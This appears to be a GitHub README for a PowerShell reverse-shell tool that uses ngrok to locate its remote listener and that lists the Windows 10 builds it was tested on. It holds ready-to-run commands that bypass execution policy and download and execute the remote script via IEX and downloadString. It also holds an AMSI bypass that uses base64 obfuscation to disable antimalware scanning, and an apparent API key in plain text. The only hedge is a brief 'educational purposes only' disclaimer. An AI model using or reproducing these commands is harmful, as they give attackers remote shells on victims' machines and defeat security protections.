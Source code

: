## Video:
[![ScreenShot](https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/2022-06-01-18%3A57%3A38.png)](https://youtu.be/2w3Y46Z4BwE "Powershell Auto Ngrok RevShell")

## Description
```
Auto detect remote server using ngrok api
```

## Requirements:
```
Ngrok
Netcat
```

## Testing:
```
Windows 10 Version 21H2, (Build number 19044)
Windows 10 Version 20H2, (Build number 19042)
Windows 10 Version 2004, (Build number 19041)
Windows 10 Version 1909, (Build number 18363)
Windows 10 Version 1507, (Build number 10240)
```


## Example (Module):
```powershell
C:\PS> Import-Module .\Invoke-RevShell
C:\PS> Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ
```

## Example (Default):

```powershell
C:\PS> powershell -ep Bypass -c "[Net.ServicePointManager]::SecurityProtocol=Net.SecurityProtocolType]::Tls12;
                                  IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/Invoke-RevShell.ps1'); 
                                  Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ;"
```

## Example (Amsi Bypass):

```powershell
C:\PS> [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true);
C:\PS> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.SecurityProtocolType]::Tls;
C:\PS> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/halitAKAYDIN/Ps-Revshell/main/Invoke-RevShell.ps1'); 
C:\PS> Invoke-RevShell -api 29yvUB6uwEHpE8lhStj4qIdwZ2e_7Tq9NtyNJJ6vcpYPq6mhJ;
```



## Disclaimer:

```
This tool is for educational purposes only.
We are not responsible for any illegal usage of this tool.
```
